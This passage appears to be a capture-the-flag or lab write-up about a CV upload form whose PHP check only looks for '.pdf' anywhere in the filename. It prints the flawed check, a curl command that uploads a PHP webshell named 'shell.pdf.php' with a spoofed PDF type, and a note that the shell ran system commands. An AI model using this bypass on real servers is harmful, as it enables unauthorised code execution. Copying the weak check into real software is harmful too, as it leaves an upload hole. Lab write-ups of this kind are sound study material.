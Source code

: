 ![Source Code](./images/04-SourceCode.png)


```php
if (!strpos($target_file, ".pdf")) {
echo "Only PDF CVs are accepted.";
}
```

The code only checked whether the string `.pdf` appeared in the filename, without validating the actual file extension or MIME type. This meant that any file containing `.pdf` in its name (e.g., `shell.pdf.php`) would pass the filter and be accepted.

### 3.2 Exploiting with cURL

Using the browser upload form always redirected back to the same error page and did not allow the exploit to succeed. To bypass this, a manual HTTP POST request was made using `cURL`:

```bash
curl -i -X POST \

-F 'fileToUpload=@shell.pdf.php;type=application/pdf' \

http://10.10.252.54/upload.php
```

This successfully uploaded the malicious PHP file to the `/cvs/` directory, bypassing the weak filter.

### 3.3 Webshell Confirmation

Once the payload was uploaded, the webshell was tested by executing system commands directly through the browser. For example:


![Web Shell](./images/05-WebShell.png)
